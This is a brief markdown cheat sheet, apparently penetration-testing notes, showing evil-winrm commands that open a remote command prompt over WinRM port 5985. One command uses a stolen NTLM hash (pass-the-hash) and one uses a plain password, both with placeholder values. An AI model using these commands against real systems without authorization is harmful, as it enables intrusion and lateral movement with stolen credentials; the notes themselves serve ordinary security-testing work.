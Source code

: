 # Windows Remote Management

## Passing The Hash

_This will give us command prompt if port 5985 is open and user is allowed WinRM using Passing The Hash technique_

```
evil-winrm -i 127.0.0.1 -u username -H NTML_HASH
```

## Normal Login

_This will give us command prompt if port 5985 is open and user is allowed WinRM using normal username and password_

```
evil-winrm -i 127.0.0.1 -u username -p password
```
